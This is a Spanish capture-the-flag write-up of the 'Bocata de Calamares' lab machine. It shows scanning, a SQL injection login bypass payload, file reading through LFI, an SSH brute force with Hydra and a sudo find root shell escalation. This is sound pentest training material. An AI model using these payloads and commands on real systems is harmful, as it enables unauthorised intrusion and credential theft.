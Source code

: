 # 🥪 Resolución del CTF "Bocata de Calamares" | The HackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** Bocata de Calamares  
**Dificultad:** Media  
**Enfoque:** SQL Injection, LFI, fuerza bruta SSH, escalada con GTFOBins

---

## 🔍 1. Escaneo de puertos con Nmap

```bash
nmap -p- -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.1.127 -oN escaneo.txt
```

**Puertos abiertos:**

- 22/tcp → OpenSSH 9.6p1 (Ubuntu)
- 80/tcp → Apache httpd 2.4.9 (Ubuntu)

---

## 🌐 2. Enumeración web

La web principal `http://192.168.1.127/` muestra una página de noticias falsas llamada **ALL FAKE NEWS**.  
Uno de los artículos menciona explícitamente SQLi como posible vulnerabilidad.

---

## 🔎 3. Fuzzing con Feroxbuster

```bash
feroxbuster -u http://192.168.1.127 -x php,html,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Se identifican:

- `/login.php`
- `/admin.php`
- `/todo-list.php`
- `/sqli.php` (explica la vulnerabilidad con ejemplo)

---

## 💥 4. Inyección SQL

Desde `sqli.php` obtenemos un payload útil:

```
Usuario: admin
Contraseña: ' OR '1'='1
```

Lo usamos en `login.php`, accediendo así al panel de administración `admin.php`.

---

## 📋 5. Enumeración desde admin.php

`admin.php` da acceso a `/todo-list.php`. Allí encontramos una pista:

> “He creado una página para leer archivos, codificada en base64 (lee_archivos)”

---

## 🧠 6. Decodificación de ruta y explotación de LFI

```bash
echo "lee_archivos" | base64
# bGVlX2FyY2hpdm9zCg==
```

Al visitar:

```
http://192.168.1.127/bGVlX2FyY2hpdm9zCg==.php
```

Se muestra un formulario vulnerable a LFI. Probamos con `/etc/passwd` y listamos usuarios.  
Detectamos: `superadministrator`

---

## 🔓 7. Ataque de fuerza bruta SSH con Hydra

```bash
hydra -l superadministrator -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.127 -t 64
```

✅ Credenciales válidas:

- Usuario: `superadministrator`
- Contraseña: `princesa`

---

## 💻 8. Acceso SSH y flag de usuario

```bash
ssh superadministrator@192.168.1.127
```

Revisamos el home y encontramos:

```bash
cat flag.txt
# FLAG_USUARIO_AQUI
```

---

## 📝 9. Recordatorio interesante

El archivo `recordatorio.txt` contiene esta nota:

> “Existe una página llamada GTFOBins muy útil para CTFs…”

---

## ⚙️ 10. Escalada de privilegios con find

```bash
sudo -l
```

Permisos detectados:

```bash
(ALL) NOPASSWD: /usr/bin/find
```

Con ayuda de GTFOBins:

```bash
sudo find . -exec /bin/sh \; -quit
whoami
# root
```

---

## 🏁 11. Flag final (root)

```bash
cat /root/root.txt
# FLAG_ROOT_AQUI
```

---

## ✅ Conclusión

1. Escaneo y enumeración web.
2. SQLi para entrar como admin.
3. Pista sobre página oculta con LFI.
4. Decodificación base64 y lectura de `/etc/passwd`.
5. Fuerza bruta por SSH → acceso como superadministrator.
6. Flag de usuario + escalada con `find` vía GTFOBins.
7. Flag final obtenida como root.

¡Un CTF con narrativa divertida y técnicas variadas de pentesting!

